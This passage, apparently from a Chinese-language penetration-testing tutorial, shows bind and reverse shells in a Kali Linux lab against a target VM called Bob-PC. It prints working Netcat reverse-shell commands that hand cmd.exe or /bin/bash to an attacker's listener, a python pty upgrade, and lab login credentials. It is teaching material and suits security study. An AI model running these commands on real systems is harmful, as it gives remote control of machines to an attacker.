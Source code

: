 如上图所示，`whoami` 命令在绑定 shell 上执行，并在 Kali Linux 上远程执行，结果返回。同样，`pwd` 命令用于确定绑定 shell 上 Kali Linux 当前的工作目录。

> 要在使用绑定 shell 时获取 Linux 终端界面，请使用 `python -c 'import pty; pty.spawn("/bin/bash")'` 命令。

完成本练习后，你已经学会了如何在运行 Netcat 监听器的系统上设置绑定 Shell，使远程用户能够建立连接到 Netcat 监听器并在目标系统上获得远程绑定 Shell，从而执行远程命令。接下来，你将学习如何在网络上设置主机之间的反向 Shell。

### 设置反向 Shell

在本练习中，你将学习如何通过网络将反向 Shell 从目标系统设置到你的攻击者机器。我们将使用 Bob-PC 作为目标系统，Bob-PC 将发起反向连接到我们的攻击者机器——Kali Linux。要开始此练习，请按照以下说明操作：

1.  启动**Kali Linux**虚拟机，打开**终端**，并使用以下命令设置 Netcat 监听器，以捕捉任何传入的连接：

```
kali@kali:~$ nc -nlvp 1234
```

1.  接下来，启动**Bob-PC**并使用本地管理员帐户登录，用户名：`Bob-PC\bob`，密码：`P@ssword2`。

1.  在**Bob-PC**上，打开**命令提示符**并使用以下命令创建反向连接到 Kali Linux 上的监听器，同时将命令提示符 Shell 发送到 Kali Linux：

```
C:\Users\bob> nc -nv 192.168.42.27 1234 -e cmd.exe
```

> 如果你使用的是基于 Linux 的系统作为客户端，请使用`nc –nv 10.1.1.2 9999 -e /bin/bash`命令将 Linux bash Shell 绑定到 Netcat 连接。

下图显示了 Bob-PC 成功连接到 Kali Linux 上的 Netcat 监听器：

![](img/file329.png)

1.  在 Kali Linux 虚拟机上，你现在可以看到来自 Windows 机器（Bob-PC）的反向 Shell，显示在 Linux 终端上，如下所示：

![](img/file330.png)
